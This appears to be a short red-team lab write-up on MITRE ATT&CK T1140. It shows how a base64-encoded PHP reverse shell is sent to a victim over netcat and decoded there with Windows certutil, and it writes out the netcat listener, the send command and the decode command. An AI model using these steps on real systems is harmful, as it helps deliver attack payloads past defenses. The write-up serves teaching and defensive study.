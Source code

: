 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode %}

Once the file is received on the victim, let's check its contents:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" caption="" %}

